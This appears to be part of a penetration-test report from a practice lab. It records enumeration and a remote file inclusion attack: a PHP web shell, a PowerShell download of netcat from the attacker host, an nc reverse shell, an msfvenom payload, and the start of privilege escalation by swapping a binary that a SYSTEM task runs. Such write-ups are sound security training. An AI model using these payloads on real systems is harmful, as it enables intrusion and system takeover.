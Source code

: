 ### SQL
```bash
mysql -u $USER -h $TARGET

# output
NSTR
```

### RDP
```bash
sudo nmap $TARGET -p3389 --script rdp-ntlm-info -oN scans/$NAME-nmap-script-rdp-ntlm-info

# output
NSTR
```

```bash
rdesktop -u administrator $TARGET
```

## Gaining Access
The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, Victor was able to successfully gain access to 10 out of the 50 systems.

### Password Guessing  
* rupert (ref: phpinfo via TCP port 4443)

### Remote File Inclusion
```bash
# attacker side
vim cmd.php # add PHP code below
```
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
```bash
# attacker side
cp /usr/share/windows-binaries/nc.exe ./nc.exe
sudo python3 -m http.server 80 # keep this running! 
# RFI on target > LPORT 80 > TARGET > LPORT 443 > TARGET
```
```bash
# attacker side
firefox http://192.168.224.53:8080/site/index.php?page=http://192.168.49.224/cmd.php&cmd=powershell.exe -c "Invoke-WebRequest -Uri 'http://192.168.49.224/nc.exe' -OutFile 'nc.exe'"
```
```bash
# attacker side
sudo nc -nvlp 21
```
```bash
# attacker side
firefox http://192.168.224.53:8080/site/index.php?page=http://192.168.49.224/cmd.php&cmd=nc.exe 192.168.49.224 21 -e "cmd.exe"
```
```bash
# attacker side
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.224 LPORT=443 -f exe -o rshell.exe
```
```bash
# target side
dir C:\ # output shows a folder called "backup"
dir C:\backup # output shows backup.txt, info.txt (indicates there's a SYSTEM scheduled task), and TFTP.exe (all writable)
mv TFTP.exe TFTP.old
```